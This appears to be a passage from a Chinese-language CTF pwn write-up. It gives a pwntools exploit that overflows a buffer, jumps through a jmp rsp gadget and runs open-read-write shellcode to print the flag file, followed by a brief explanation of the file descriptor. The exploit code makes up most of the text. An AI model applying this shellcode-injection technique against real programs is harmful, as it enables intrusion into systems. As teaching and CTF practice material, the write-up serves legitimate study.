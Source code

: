 ```plain
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

#dbg()
ru('Easy shellcode, have fun!')

mmap=0x123000
#orw=shellcraft.open('./flag.txt')
orw=shellcraft.open('./flag')
orw+=shellcraft.read(3,mmap,0x50)
orw+=shellcraft.write(1,mmap,0x50)

jmp_rsp=0x400A01

pl=asm(shellcraft.read(0,mmap,0x100))+asm('mov rax,0x123000;call rax')
pl=pl.ljust(0x28,b'\x00')
pl+=p64(jmp_rsp)+asm('sub rsp,0x30;jmp rsp')


sl(pl)

shell=asm(orw)
sl(shell)

p.interactive()
```

解释一下exp

[![](assets/1701612140-11d10e99b12c295ccb71caf4dfec343b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203640-6261d0f0-3b68-1.png)

*   第一个框就是构造我们orw的shellcode了，先打开flag文件，之后利用read写入flag，再输出flag

这里先说一下为什么read的fd是3，可以结合下面图片，0~2都是保留的用于缓冲区，我们打开第一个新文件的文件描述符是3，第二个是4，以此类推
